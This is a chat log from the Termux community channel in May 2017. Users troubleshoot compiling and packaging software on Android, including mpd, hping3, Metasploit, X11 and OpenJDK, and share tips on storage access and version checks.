2017-05-12 22:40:39	John[Lisbeth]	termux ain't have no build essential and I need to compile emacs

2017-05-12 22:52:27	rods-tab3	termux:  apt install emacs

2017-05-12 22:54:41	John[Lisbeth]	that is not what I want to do I want to compile emacs. Are there compilation tools available in termux' repos?

2017-05-12 22:56:19	gitter1	(vishalbiswas) `apt install automake autoconf make pkg-config clang libtool`

2017-05-13 09:14:27	Wiezman	hola

2017-05-13 09:15:00	Wiezman	no one here

2017-05-13 09:21:10	live_the_dream	?

2017-05-13 09:21:15	live_the_dream	:(

2017-05-13 10:04:02	MrTijn	Sounds like someone who doesn't really understand IRC...

2017-05-13 12:04:52	van777	i've swithed from ssh to mosh. the connection from termux to the weechat server  feels smoother now.

2017-05-13 13:07:15	gitter1	(mklein994) live_the_dream: you left `log_level "verbose"` in $PREFIX/etc/mpd.conf, and after running `mpc update --wait`, the log file ballooned to 1GB. I think it would be best to leave it at `" default"`.

2017-05-13 13:08:41	gitter1	(mklein994) Also, wouldn't it be better to just compile in options like `port "8600" `, and leave the rest as defaults commented in the config? I for one like to put everything in `~/.config` instead of cluttering my home directory

2017-05-13 13:08:59	gitter1	(mklein994) s/directory/directory.

2017-05-13 13:15:59	gitter1	(cocodevienne) @mklein994  Sorry I haven't been able to resolve the issue, I've just been extremely busy with School and the end-of-year exams.

2017-05-13 13:16:22	gitter1	(cocodevienne) Why can't I use the `SimpleHTTPServer` module in Python 3.6?

2017-05-13 13:17:23	gitter1	(mklein994) No problem. I completely understand.

2017-05-13 13:19:15	gitter1	(mklein994) @cocodevienne You mean `python -m http.server`?

2017-05-13 13:19:51	gitter1	(mklein994) That's changed from python2 to python3.

2017-05-13 13:22:16	gitter1	(cocodevienne) Ok thanks for being such a sport. The summer holdiays start soon and then I'll look at it and sort it out. No, I mean `SimpleHTTPServer`:)

2017-05-13 13:22:20	gitter1	(cocodevienne) .

2017-05-13 14:46:44	gitter1	(mklein994) First google hit for "python simplehttpserver":

2017-05-13 14:46:57	gitter1	(mklein994) http://stackoverflow.com/questions/7943751/what-is-the-python-3-equivalent-of-python-m-simplehttpserver

2017-05-13 14:48:00	gitter1	(mklein994) Sorry "python3 simplehttpserver". :P

2017-05-13 14:48:02	gitter1	(cocodevienne) Oh right thanks! I AM a blind duck!:)

2017-05-13 15:32:50	live_the_dream	mklein994 i have mpd working with opensles and openal so its basically fully working

2017-05-13 17:34:59	gitter1	(cocodevienne) Guys, I've made a simple and elegant calculator in Ruby. I've published it on rubygems.org and reached about ~  150 downloads already. Does anyone want to help me get that number up?

2017-05-13 17:35:07	gitter1	(cocodevienne) I would be really happy!

2017-05-13 19:14:16	swift110	hey guys

2017-05-13 20:10:09	JohnOlinda[m]	Has anyone used `youtube-dl` in Termux with success? I guess the key would be accessing the files after they're downloaded?

2017-05-13 20:10:37	live_the_dream	yeah pip install youtube-dl

2017-05-13 20:11:00	live_the_dream	the only reason its not a package in termux is because its so easy to use pip instead

2017-05-13 20:13:09	bokuno	yeah, youtube-dl works well in Termux

2017-05-13 20:15:23	swift110	that would be coo;

2017-05-13 20:15:30	swift110	you can use pip in termux?

2017-05-13 20:16:24	bokuno	install python3 then you got pip

2017-05-13 20:16:25	JohnOlinda[m]	That's affirmative. Just tried it and it is downloading now. Now I've just got to figure out where the files live in the phone storage.

2017-05-13 20:16:46	bokuno	in current dir

2017-05-13 20:17:23	gitter1	(cocodevienne) `pwd`

2017-05-13 20:18:56	JohnOlinda[m]	Right, but I want to see if I can get it to play either in mpv via Termux or mpv via the Play Store.

2017-05-13 20:19:30	JohnOlinda[m]	OK, that's a nope for mpv via Termux.

2017-05-13 20:21:07	JohnOlinda[m]	So the files would have to be downloaded outside Termux's sandboxed storage to be accessible to mpv app.

2017-05-13 20:26:19	JohnOlinda[m]	OK, well `termux-setup-storage` ran smoothly, so Plan B should work fine.

2017-05-13 20:30:58	JohnOlinda[m]	Cool.

2017-05-13 20:34:10	swift110	ok

2017-05-13 20:37:27	bokuno	yeah ~/storage/shared is your SDcard root

2017-05-13 21:30:44	live_the_dream	k i went through mpd + ncmpcpp the setup on install of both should just work(tm)

2017-05-13 23:23:49	gitter1	(vishalbiswas) thread_db was removed from bionic ages ago, but, the include file still lives in the ndk

2017-05-14 02:27:14	gitter1	(vishalbiswas) @fornwall I propose merging x11 into main repo, but, only using it for packages that don't have a cli. that means, mpv and others don't get an X11 version

2017-05-14 02:28:40	gitter1	(vishalbiswas) I say this mainly because of openjdk. A large number of java packages are gui based.

2017-05-14 03:14:59	live_the_dream	at this stage seperate repo is probably best at least in the short term

2017-05-14 03:15:50	live_the_dream	also mpv having a gui wouldnt be that bad since mpd ... is actually working

2017-05-14 03:30:02	live_the_dream	https://imgur.com/a/e1v8G purty

2017-05-14 03:34:27	live_the_dream	https://imgur.com/a/APSpI ...

2017-05-14 03:35:01	pppppp	Can we install all the things like on linux

2017-05-14 03:35:14	pppppp	Metasploit

2017-05-14 03:35:22	live_the_dream	meta sploit can be installed

2017-05-14 03:35:27	live_the_dream	but its a little of effort

2017-05-14 03:35:30	pppppp	And other tools

2017-05-14 03:35:41	live_the_dream	radare2 gdb clang

2017-05-14 03:36:12	pppppp	Can we do penetration work like kali

2017-05-14 03:36:40	live_the_dream	hmm

2017-05-14 03:42:00	live_the_dream	i love how the touch screen works in ncmcpp witout any effort on my part

2017-05-14 03:56:47	pppppp	Can any one tell me how termux works

2017-05-14 03:57:06	pppppp	Is it any deploy of linux/unix

2017-05-14 04:25:28	live_the_dream	no its native

2017-05-14 04:25:33	live_the_dream	its built with ndk

2017-05-14 04:25:38	live_the_dream	its on android file system

2017-05-14 05:20:15	frumpylava	Is there any filesytem I can format my external sdcard to that would allow symlinking? On an unrooted android. I tried various things like ext4 already, but it doesn't get recognized.

2017-05-14 05:44:09	live_the_dream	on unrooted? no

2017-05-14 07:13:07	live_the_dream	termux sixel when?

2017-05-14 07:40:23	gitter1	(barjolem) Hi everyone! I'm quite new with termux and I would like to know if it's possible to compile other tools like recon-ng or hping3 on termux? Thx!

2017-05-14 08:19:07	live_the_dream	python stuff shkuld be good to go

2017-05-14 08:23:11	live_the_dream	the issue is android restrictions

2017-05-14 09:00:47	gitter1	(barjolem) Yeah, it's ok for recon but i'm not sure how to do for hping

2017-05-14 09:01:43	live_the_dream	i just compiled hping it needs root to rub

2017-05-14 09:02:32	gitter1	(barjolem) Can you help me with the procedure? I've just download hping sources from kali repo. No problem about root

2017-05-14 09:03:36	live_the_dream	on device compile need to set up libandroid-shmem-dev

2017-05-14 09:04:05	gitter1	(barjolem) Please, follows this steps:

2017-05-14 09:04:05	gitter1	(barjolem)

2017-05-14 09:04:05	gitter1	(barjolem) $ ./configure (first try ./configure --help)

2017-05-14 09:04:05	gitter1	(barjolem) [full message: https://gitter.im/termux/termux?at=591855c49f4f4ab05bc2470d]

2017-05-14 09:04:10	gitter1	(barjolem) Is this ok?

2017-05-14 09:05:21	live_the_dream	doing that works for normal unix/linux but android is a tad dofferent

2017-05-14 09:05:50	gitter1	(barjolem) Ok thanks. I've downloaded libandroid-shmem-dev

2017-05-14 09:05:51	live_the_dream	the lib location in makefile is not coreect

2017-05-14 09:06:16	gitter1	(mklein994) Thanks live_the_dream. `ncmpcpp` works really well. Didn't think I'd see the day…

2017-05-14 09:06:45	live_the_dream	i have 6 outputs listed on mpd

2017-05-14 09:06:48	live_the_dream	hehe

2017-05-14 09:07:22	gitter1	(barjolem) You mean in hping install file?

2017-05-14 09:07:23	live_the_dream	opensles openal httpd null the equalizer vorbis encoding

2017-05-14 09:07:44	live_the_dream	no tlinking the hping3

2017-05-14 09:07:47	live_the_dream	linking

2017-05-14 09:09:37	gitter1	(barjolem) I don't understand sorry, I have to change a path to the lib?

2017-05-14 09:10:07	live_the_dream	barjolem im about to go to sleep give me a shlut in about 12 houts...

2017-05-14 09:10:19	live_the_dream	hours

2017-05-14 09:10:21	live_the_dream	../

2017-05-14 09:10:51	gitter1	(barjolem) Ok no problem, thanks you!

2017-05-14 09:35:40	gitter1	(vishalbiswas) live_the_dream: From your repo

2017-05-14 09:35:45	gitter1	(vishalbiswas) `CANNOT LINK EXECUTABLE: could not load library "libid3tag.so.0" needed by "/data/data/com.termux/files/usr/libexec/mpd"; caused by library "libid3tag.so.0" not found`

2017-05-14 09:37:23	gitter1	(vishalbiswas) You forgot to add `libid3tag` to deps

2017-05-14 09:47:08	gitter1	(vishalbiswas) @mklein994 How do I create mpd database?

2017-05-14 10:42:58	gitter1	(mklein994) First make sure that your mpd.conf is how you like it (music_database, and other settings). Create the necessary files (e.g. `mkdir -p ~/.config/mpd/playlists && touch ~/.config/mpd/{database,socket,pid,state,sticker.sql}`). Then update the mpd database with `mpc -h ~/.config/mpd/socket update --wait`.

2017-05-14 10:43:53	gitter1	(mklein994) The wait flag makes it blocking.

2017-05-14 10:49:12	gitter1	(mklein994) @vishalbiswas see above. Also, the arch wiki has a good section on this.

2017-05-14 10:49:49	gitter1	(mklein994) https://wiki.archlinux.org/index.php/Music_Player_Daemon

2017-05-14 10:53:27	gitter1	(vishalbiswas) @mklein994 mpd error: Connection reset by peer

2017-05-14 11:03:45	gitter1	(mklein994) Sorry, I can't help in depth now. I'll be available later today.

2017-05-14 11:06:19	gitter1	(vishalbiswas) @mklein994 no probs

2017-05-14 13:10:01	gitter1	(vishalbiswas) @fornwall is there in buildorder.py for TERMUX_PKG_DEPENDS that change based on arch?

2017-05-14 13:10:32	gitter1	(vishalbiswas) I mean, I want to add a dep if the arch is x86_64

2017-05-14 13:26:07	gitter1	(mklein994) OK so that's a weird error. Normally it would be something like "can't bind to 0.0.0.0:8600" or something similar (which you can safely ignore). Is there anything useful in the log file you created?

2017-05-14 13:26:16	gitter1	(mklein994) @vishalbiswas

2017-05-14 13:27:31	gitter1	(vishalbiswas) did you build it yourselves or did you use his repo? @mklein994

2017-05-14 13:28:15	gitter1	(mklein994) I used the repo. It's been pretty rapidfire on the updates lately.

2017-05-14 13:30:46	gitter1	(mklein994) `deb [trusted=yes] https://its-pointless.github.io/files/ termux extras`

2017-05-14 13:31:04	gitter1	(vishalbiswas) ```-bash-4.4$ mpd

2017-05-14 13:31:04	gitter1	(vishalbiswas) exception: Failed to open /data/data/com.termux/files/home/.mpd/database: No such file or directory```

2017-05-14 13:31:58	gitter1	(vishalbiswas) if I touch database, I get database corrupted

2017-05-14 13:34:27	gitter1	(mklein994) Yeah. For some reason I had experienced the same thing. I just `rm`ed it and recreated it and it worked. Maybe it has to have a different timestamp to allow the update? I dunno.

2017-05-14 13:35:22	gitter1	(vishalbiswas) mpd just quits with bus error whenever I try to run mpc

2017-05-14 13:36:50	gitter1	(mklein994) Try running `mpd --no-daemon --verbose --stderr`

2017-05-14 13:37:09	gitter1	(mklein994) Make sure to `pkill mpd` first.

2017-05-14 13:38:35	gitter1	(mklein994) Does mpc help show stuff?

2017-05-14 13:43:47	gitter1	(vishalbiswas) mpd shows bus error on first mp3

2017-05-14 13:43:47	gitter1	(vishalbiswas) ```May 14 23:11 : update: spawned thread for update job id 1

2017-05-14 13:43:47	gitter1	(vishalbiswas) May 14 23:11 : update: starting

2017-05-14 13:43:47	gitter1	(vishalbiswas) [full message: https://gitter.im/termux/termux?at=5918975333e9ee771ca750ac]

2017-05-14 17:20:06	live_the_dream	@vishal mpd is thrraded so it changes permissions of database / state file

2017-05-14 17:21:29	gitter1	(barjolem) Hi!

2017-05-14 17:23:11	gitter1	(barjolem) I think I understood what you were saying last time : we can't do a standard "make" because of all the paths /usr/bin etc?

2017-05-14 17:24:39	gitter1	(barjolem) I was looking for a way to change all these paths but i didn't find one.. on github, some people sugested to use chroot

2017-05-14 17:27:33	gitter1	(barjolem) @TermuxBot

2017-05-14 17:49:06	gitter1	(cocodevienne) Uhm why can't I install Jekyll on Termux???

2017-05-14 18:08:47	gitter1	(mklein994) @cocodevienne I've got it running fine.

2017-05-14 18:11:17	gitter1	(cocodevienne) Got it running, just had to install some extra libs. Btw: Do you or does anyone know, why I am getting so many downloads on my Ruby Gem? It's only been out in the wild for about 48 hrs. Does anyone know for sure why I have so many downloads? @mklein994

2017-05-14 18:13:20	gitter1	(mklein994) @cocodevienne I don't have a hot clue. The only thing I can think of is other sites scraping the one your hosting on to put on their site.

2017-05-14 18:14:16	gitter1	(cocodevienne) But they wouldn't actually run a download on the binary package?

2017-05-14 18:14:43	gitter1	(cocodevienne) @mklein994

2017-05-14 18:16:16	gitter1	(mklein994) As I said, that's just me making stuff up.

2017-05-14 18:18:03	gitter1	(cocodevienne) Ok^^. Thanks for making a guess though!:)

2017-05-14 18:20:43	gitter1	(mklein994) @vishalbiswas any luck with mpd?

2017-05-14 18:31:36	Retr0	hello

2017-05-14 18:32:52	JohnOlinda[m]	Howdy!

2017-05-14 18:33:31	Retr0	:)

2017-05-14 18:33:41	Retr0	you are speak spanish?

2017-05-14 18:34:23	Retr0	???

2017-05-14 18:36:24	gitter1	(cocodevienne) Qué pasá?

2017-05-14 18:42:31	JohnOlinda[m]	No, I'm sorry, I don't speak Spanish 🙁

2017-05-14 18:42:31	JohnOlinda[m]	No, lo siento, no hablo español 🙁

2017-05-14 18:45:29	gitter1	(cocodevienne) I was talking to @Retr0

2017-05-14 18:45:31	gitter1	(cocodevienne) Anyways.

2017-05-14 18:58:02	live_the_dream	barjolem https://its-pointless.github.io/hping3patch.patch

2017-05-14 18:58:19	gitter1	(barjolem) Thanks!

2017-05-14 18:59:12	live_the_dream	just have to install tcl-dev and libandroid-shmem-dev

2017-05-14 18:59:26	live_the_dream	in root for it to work use tsu command in termux

2017-05-14 18:59:31	live_the_dream	to get root shell

2017-05-14 19:00:17	live_the_dream	but yeah ./configure ; make -j4 ; make install should work

2017-05-14 19:00:17	gitter1	(barjolem) Ok

2017-05-14 19:00:35	gitter1	(barjolem) So how did you do?

2017-05-14 19:00:43	live_the_dream	how did i do it?

2017-05-14 19:00:51	gitter1	(barjolem) Yes

2017-05-14 19:01:07	gitter1	(barjolem) In case i would like to use other tools

2017-05-14 19:01:29	live_the_dream	a few #include stuff wasn't wrong

2017-05-14 19:01:31	live_the_dream	was wrong

2017-05-14 19:01:40	live_the_dream	termux-fix-shebang ...

2017-05-14 19:01:56	live_the_dream	to fix stuff but a lot of install paths were not portable

2017-05-14 19:02:08	gitter1	(barjolem) Ok

2017-05-14 19:03:03	live_the_dream	libpcap-dev needs to be installed as well

2017-05-14 19:03:07	gitter1	(barjolem) About metasploit, i saw you spoke about it earlier, is it really hard to make it run on termux?

2017-05-14 19:05:58	live_the_dream	vishal is who you talk to about that

2017-05-14 19:06:16	live_the_dream	there was a download link somewhere it was even mentioned in gitter

2017-05-14 19:07:25	live_the_dream	now to fix mpd behaviour since it messes with permissions on database files etc

2017-05-14 19:08:05	live_the_dream	now sinec bin/mpd needs to be a script itself launch libexec/mpd we can do it straight there to fix behaviour

2017-05-14 19:08:31	gitter1	(mklein994) live_the_dream: you did that already, right?

2017-05-14 19:08:59	live_the_dream	not quite

2017-05-14 19:09:19	live_the_dream	a few more adjustments as well i need to do to get the behvaiour right

2017-05-14 19:10:04	gitter1	(mklein994) OK. I'll be here a little while if you need a [rubber duck](https://en.wikipedia.org/wiki/Rubber_duck_debugging).

2017-05-14 19:10:40	gitter1	(barjolem) A download link for metasploit? I'm gonna find that!

2017-05-14 19:11:22	gitter1	(cocodevienne) @MD5HashBrowns

2017-05-14 19:11:40	gitter1	(cocodevienne) @mklein994 Been playing around a while with the So simple Theme...

2017-05-14 19:12:31	gitter1	(mklein994) @cocodevienne I don't follow.

2017-05-14 19:12:41	gitter1	(cocodevienne) For Jekyll and when I serve the oage with `bundle exec serve` I see a nicely formatted page, but I can't find that page in the original source. I want to chsnge it to fit my needs. What to do?

2017-05-14 19:12:46	gitter1	(cocodevienne) @mklein994

2017-05-14 19:15:26	gitter1	(cocodevienne) Here's the link to the theme: https://github.com/mmistakes/so-simple-theme.git

2017-05-14 19:16:17	gitter1	(mklein994) You might have better luck at https://gitter.im/jekyll/jekyll

2017-05-14 19:17:27	gitter1	(cocodevienne) Right you are! Wrong channel!;)

2017-05-14 20:55:43	gitter1	(mklein994) I'm having an odd problem: my docker image is missing `build-package.sh` (or so it seems).

2017-05-14 20:55:43	gitter1	(mklein994) ```console

2017-05-14 20:55:43	gitter1	(mklein994) $ sudo ./scripts/run-docker.sh ./build-package.sh -a arm libandroid-support

2017-05-14 20:55:43	gitter1	(mklein994) [full message: https://gitter.im/termux/termux?at=5918fc8e2b926f8a675648ac]

2017-05-14 21:57:02	gitter1	(barjolem) Finally metasploit is running! ✌

2017-05-14 21:57:36	live_the_dream	try just updated mpd if you want ...

2017-05-14 21:58:08	gitter1	(barjolem) But still can't run msfupdate..

2017-05-14 22:00:11	live_the_dream	oh wait i fucked it up

2017-05-14 22:00:25	live_the_dream	no i didnt...

2017-05-14 22:26:03	live_the_dream	ppl try it anyway

2017-05-14 22:27:31	gitter1	(vishalbiswas) Just don't let me wipe out my data and it'll all be fine

2017-05-14 22:28:09	live_the_dream	oh you using data rather than wifi?

2017-05-14 22:28:14	live_the_dream	k

2017-05-14 22:28:42	live_the_dream	i need you to test texlive by installing everthing ;)

2017-05-14 22:31:23	gitter1	(vishalbiswas) No, I mean my files

2017-05-14 22:32:18	gitter1	(vishalbiswas) You should also add the conf files to `TERMUX_PKG_CONFFILES`. Just wiped out my customisations

2017-05-14 22:32:41	live_the_dream	oh right ...

2017-05-14 22:34:01	live_the_dream	sorry

2017-05-14 22:35:30	gitter1	(vishalbiswas) Still getting Bus error

2017-05-14 22:36:46	live_the_dream	exact error ?

2017-05-14 22:37:31	live_the_dream	and could you show me /system/lib /system/lib64 directory contents?

2017-05-14 22:37:49	live_the_dream	and /system/vendor as well?

2017-05-14 22:38:33	live_the_dream	just a list of all system libs...

2017-05-14 22:46:33	gitter1	(vishalbiswas) live_the_dream: https://pastebin.com/jD715w3S

2017-05-14 22:51:37	gitter1	(vishalbiswas) Its trying to write to /dev/log/main. Is it okay?

2017-05-14 22:53:20	gitter1	(vishalbiswas) Ignore the log comment, it doesn't matter

2017-05-14 22:54:04	gitter1	(vishalbiswas) It receives the error just after reading the mp3 file

2017-05-14 22:55:50	live_the_dream	just having lunch nee build in a little

2017-05-14 22:57:25	gitter1	(vishalbiswas) strace output -> https://drive.google.com/file/d/0B8Q4yBRb9PSHc05XN2otNktka2M/view?usp=drivesdk

2017-05-14 23:25:36	live_the_dream	try it now

2017-05-14 23:26:01	live_the_dream	i think i know what happened iv seen mpd logs talking of boring ssl

2017-05-14 23:26:09	live_the_dream	i thought that was weird

2017-05-14 23:26:18	live_the_dream	its now using our ssl

2017-05-14 23:26:33	live_the_dream	a few more libs in preload section

2017-05-14 23:27:47	live_the_dream	we have never had a music app that used curl and ssl etc

2017-05-14 23:32:53	gitter1	(vishalbiswas) "Bus error". Its getting terminated by SIGBUS

2017-05-14 23:33:32	live_the_dream	remove all out sound output but null

2017-05-14 23:34:35	gitter1	(vishalbiswas) Its quits on update, not play

2017-05-14 23:35:33	live_the_dream	you need the music dir to exist where it searches

2017-05-14 23:35:46	live_the_dream	remove database from ~/.mpd/

2017-05-14 23:35:55	live_the_dream	then again just remove ~/.mpd dir

2017-05-14 23:36:32	live_the_dream	i don't think music dir can exist outside our little bit

2017-05-14 23:36:46	live_the_dream	remove update dir stuff from config?

2017-05-14 23:37:32	live_the_dream	it could be poll usuage ... but epoll is not working on it ... so i dunno

2017-05-14 23:39:48	live_the_dream	you can have symlinks in our stuff and it will work

2017-05-14 23:39:49	live_the_dream	i think

2017-05-14 23:43:52	live_the_dream	on installation i suppose it make .music dir and ln -s /sdcard/Music/* ./

2017-05-14 23:49:39	gitter1	(vishalbiswas) Tried symlinking, copying mp3 to $HOME/music (and setting music_dir appropriately). No go

2017-05-14 23:51:34	gitter1	(vishalbiswas) I uploaded the wrong tracefile wait

2017-05-14 23:52:57	gitter1	(vishalbiswas) Here, see strace -> https://drive.google.com/file/d/0B8Q4yBRb9PSHeFlKYWhsSnRxY00/view?usp=drivesdk

2017-05-14 23:53:09	gitter1	(vishalbiswas) Quits just after reading the mp3

2017-05-15 00:14:38	gitter1	(vishalbiswas) btw, I had some success with openjdk

2017-05-15 00:14:46	gitter1	(vishalbiswas) now only aarch64 build fails

2017-05-15 00:15:44	live_the_dream	sigh

2017-05-15 00:31:25	gitter1	(vishalbiswas) aarch64 fails while compiling ThreadLocalStorage

2017-05-15 00:55:17	live_the_dream	k another build is up

2017-05-15 00:55:39	live_the_dream	also i couldn't ocmpile x

2017-05-15 00:55:43	live_the_dream	also i couldn't ocmpile X11

2017-05-15 00:56:44	gitter1	(vishalbiswas) what did you get?

2017-05-15 00:57:35	gitter1	(vishalbiswas) probably something to do with outb, inb, etc?

2017-05-15 00:57:55	live_the_dream	error: unknown type name 'DrawablePtr'; did you mean 'Drawable'?

2017-05-15 00:58:06	gitter1	(vishalbiswas) aarch64?

2017-05-15 00:58:09	live_the_dream	no

2017-05-15 00:59:11	gitter1	(vishalbiswas) which arch then?

2017-05-15 00:59:17	live_the_dream	arm

2017-05-15 01:00:58	gitter1	(vishalbiswas) you probably followed the wrong sequence of build

2017-05-15 01:01:13	gitter1	(vishalbiswas) I haven't worked out the dependency tree yet

2017-05-15 01:01:32	gitter1	(vishalbiswas) first build x11-proto

2017-05-15 01:01:45	gitter1	(vishalbiswas) it has all protocol headers, then xtrans

2017-05-15 01:03:50	live_the_dream	k

2017-05-15 01:03:56	live_the_dream	now try latest mpd build

2017-05-15 01:05:10	gitter1	(vishalbiswas) I already have the latest one

2017-05-15 01:05:22	live_the_dream	i just upped it

2017-05-15 01:05:27	live_the_dream	redownload

2017-05-15 01:07:25	gitter1	(vishalbiswas) did you forget to update revision?

2017-05-15 01:10:13	live_the_dream	yer

2017-05-15 01:10:21	live_the_dream	i would be at revision 100 by now

2017-05-15 01:12:02	gitter1	(vishalbiswas) still bus error

2017-05-15 01:14:22	gitter1	(vishalbiswas) maybe its my mp3 file

2017-05-15 01:19:14	gitter1	(vishalbiswas) now it doesn't read my ~/music

2017-05-15 01:51:07	live_the_dream	k last one for today

2017-05-15 01:52:53	live_the_dream	this might actually work

2017-05-15 01:57:11	gitter1	(vishalbiswas) shows database update finish but doesn't show any files

2017-05-15 01:58:20	gitter1	(vishalbiswas) after i switched music_dir to /sdcard, it says Aborted

2017-05-15 01:59:18	gitter1	(vishalbiswas) still bus error

2017-05-15 02:00:01	live_the_dream	you have to remove database file

2017-05-15 02:00:06	live_the_dream	and try again

2017-05-15 02:00:13	live_the_dream	keep it in ~/music

2017-05-15 02:00:25	live_the_dream	press 2 twice

2017-05-15 02:05:28	gitter1	(vishalbiswas) its related to the mp3 files i have, I tried another one and it works

2017-05-15 02:07:28	gitter1	(vishalbiswas) half of my files work and the rest just cause bus error

2017-05-15 02:08:00	live_the_dream	weird

2017-05-15 02:08:31	gitter1	(vishalbiswas) is there a tool to like... verify mp3 files?

2017-05-15 02:09:39	gitter1	(vishalbiswas) mpv can play just fine

2017-05-15 05:23:23	gitter1	(vishalbiswas) why do we have open in stdio.h?

2017-05-15 09:24:52	gitter1	(fornwall) @vishalbiswas about `TERMUX_PKG_DEPENDS` and arch-dependent values, I guess we could add that if needed (and pass the arch to buildorder.py)

2017-05-15 09:26:11	gitter1	(fornwall) @vishalbiswas `open in stdio.h` - do you mean this: https://github.com/termux/termux-packages/blob/master/ndk_patches/stdio.h.patch#L65

2017-05-15 11:31:04	gitter1	(vishalbiswas) @fornwall no problems. I worked around it

2017-05-15 12:47:01	gitter1	(vishalbiswas) does anybody has any idea about how would gtk would be implemented without GL?

2017-05-15 15:56:01	gitter1	(fornwall) @vishalbiswas GL? as in OpenGL?

2017-05-15 17:53:13	gitter1	(fornwall) version 0.49 of Termux, just released, finally exports TMPDIR - don't know why I delayed that so long :)

2017-05-15 18:18:09	rods-tab3	env:   TMPDIR=/data/data/com.termux/files/usr/tmp

2017-05-15 19:01:03	live_the_dream	@vishalbiswas can you upload a mp3 that causes mpd to crash?

2017-05-15 19:07:40	rods-tab3	how tell termux version ?

2017-05-15 19:10:07	van777	rods-tab3: long tap termux icon - App info

2017-05-15 19:11:19	gitter1	(mklein994) Just like you would with any other app.

2017-05-15 19:17:14	rods-tab3	icon where ?  settings/app/termux  says version 0.49

2017-05-15 19:18:13	rods-tab3	does the beta version show any difference ?

2017-05-15 19:20:32	live_the_dream	what beta version?

2017-05-15 19:21:13	rods-tab3	termux beta

2017-05-15 19:22:08	live_the_dream	there is a beta version?

2017-05-15 19:27:54	rods-tab3	according to the google store - said join beta - did so - whats the diff ?

2017-05-15 19:30:11	live_the_dream	i have no idea

2017-05-15 19:34:47	rods-tab3	what icon do you long tap to get apt info ?

2017-05-15 19:35:35	van777	rods-tab3: i tried both. the Shortcut on the launcher and in aplications list

2017-05-15 19:36:39	rods-tab3	nojoy here in android 6.0 -- it just selects the icon for movement

2017-05-15 19:37:00	van777	ah. i've got Nova launcher

2017-05-15 19:37:30	rods-tab3	on the home page / must be the diff / stock google launcher here

2017-05-15 19:38:02	van777	settings - applications...

2017-05-15 19:38:28	rods-tab3	settings/apps/termux shows v 0.49 (no beta)

2017-05-15 19:42:24	rods-tab3	termux-info says version <= 0.48   ????????

2017-05-15 19:42:57	rods-tab3	where is the main termux executable kept ?

2017-05-15 19:43:53	live_the_dream	if you mean the command termux-info

2017-05-15 19:44:04	live_the_dream	that currently has no way to detect termux-app

2017-05-15 19:44:14	live_the_dream	so it just outputs a static number in the script

2017-05-15 19:46:51	rods-tab3	ok, but ment the main termux programm location ?

2017-05-15 19:49:08	live_the_dream	what do you mean?

2017-05-15 19:58:28	rods-tab3	when, i start termux; assume it is running a program ? where is the physical file kept ?

2017-05-15 19:59:40	rods-tab3	process name is com.termix

2017-05-15 20:12:30	gitter1	(mklein994) rods-tab3: it's spread all over. Some is in `/data/app/com.termux-*/`, and other stuff are in `$PREFIX/..`, i.e. `/data/data/com.termux`. I have a feeling your barking up the wrong tree.

2017-05-15 20:14:26	gitter1	(mklein994) You need root to explore that though.

2017-05-15 20:20:53	live_the_dream	termux app should be exporting it

2017-05-15 20:21:17	gitter1	(mklein994) live_the_dream: now there's an idea.

2017-05-15 20:21:40	gitter1	(mklein994) @fornwall

2017-05-15 20:41:46	rods-tab3	jjust wanted to see if being in the beta - changed any files

2017-05-15 22:47:03	gitter1	(vishalbiswas) @fornwall Yes, OpenGL. I was looking for a way to get gtk over (surfaceless) GLES 2/GLX, but, it seems like glx requires GL (with dri2?).

2017-05-15 22:51:38	live_the_dream	there is no way to do that

2017-05-15 22:51:56	live_the_dream	the gl drivers in android are not done in a way that allows xwindows

2017-05-15 22:52:10	live_the_dream	there has been one driver that did work

2017-05-15 22:52:11	live_the_dream	one

2017-05-15 23:00:25	gitter1	(vishalbiswas) but we don't have gl drivers

2017-05-15 23:00:31	gitter1	(vishalbiswas) only gles ones

2017-05-15 23:01:02	gitter1	(vishalbiswas) thats why i compiled mesa

2017-05-15 23:01:56	gitter1	(vishalbiswas) anyway, it only needs surfaceless rendering to be able to output to Xvnc (I hope)

2017-05-15 23:07:49	gitter1	(vishalbiswas) live_the_dream: that mp3 -> http://stuffdown.com/2015/Skrillex%20&%20Diplo%20-%20Skrillex%20And%20Diplo%20Present%20Jack%20U%20-%20(www.SongsLover.pk)/05.%20To%20U%20(feat.%20AlunaGeorge)%20-%20(www.SongsLover.pk).mp3

2017-05-15 23:11:50	live_the_dream	its happening to me

2017-05-15 23:11:56	live_the_dream	good i can now bugfix

2017-05-15 23:18:43	live_the_dream	and now its working

2017-05-15 23:23:30	live_the_dream	try reinstalling now

2017-05-15 23:27:28	live_the_dream	if that doesn't work try renaming the file

2017-05-15 23:49:06	gitter1	(vishalbiswas) what was the problem?

2017-05-15 23:59:53	gitter1	(vishalbiswas) did you try playing over network on another device?

2017-05-16 00:00:22	live_the_dream	is it working for you?

2017-05-16 00:08:48	gitter1	(vishalbiswas) i don't get any sound

2017-05-16 00:09:04	gitter1	(vishalbiswas) tried it on WSL

2017-05-16 00:11:06	gitter1	(vishalbiswas) it works

2017-05-16 00:11:26	gitter1	(vishalbiswas) i just had volume turned down

2017-05-16 01:08:53	frumpylava	fornwall: We still don't have a way to detect Termux version from the shell? `termux-info` will now display wrong information until this is resolved.

2017-05-16 01:17:14	rods-tab3	how do you tell if your termux files are in the beta ?

2017-05-16 01:18:17	live_the_dream	there is no beta

2017-05-16 01:22:06	gitter1	(vishalbiswas) rods-tab3: your play store listing for Termux will show `Termux (Beta)`

2017-05-16 01:30:36	rods-tab3	it does

2017-05-16 01:48:59	Gilfoyle-	So, I'm curious. Does the packages command have a way to pgp keys? Or I just go straight to apt add-key?

2017-05-16 01:49:22	live_the_dream	apt-key add

2017-05-16 01:54:20	Gilfoyle-	Danke

2017-05-16 02:14:11	frumpylava	Has anyeone been able to compile php-mysqli using phpize on device? I'm getting `error: conflicting types for '__errno'`

2017-05-16 03:09:48	Gilfoyle-	So I'm curious, that pr about using termux in vr  mode ever go anywhere?

2017-05-16 03:10:49	frumpylava	Gilfoyle-: I don't think so.

2017-05-16 03:11:58	Gilfoyle-	Bollocks. Well that bites.

2017-05-16 03:12:52	frumpylava	I'm not sure VR on a per app basis is the right solution. It should be possible to launch all apps in a virtual screen, but perhaps that is something that would have to be baked into the operating system.

2017-05-16 03:13:34	Gilfoyle-	Aye. Kinda surprised it hasn't already.

2017-05-16 03:14:14	Gilfoyle-	Guess I can cheat a bit and figure something out.

2017-05-16 03:19:20	frumpylava	I'd really like to use Termux in a virutal office.

2017-05-16 03:48:09	noncom38	hi!

2017-05-16 03:48:22	noncom38	how do I close the floating termux window?

2017-05-16 03:48:27	noncom38	w/o killing termux

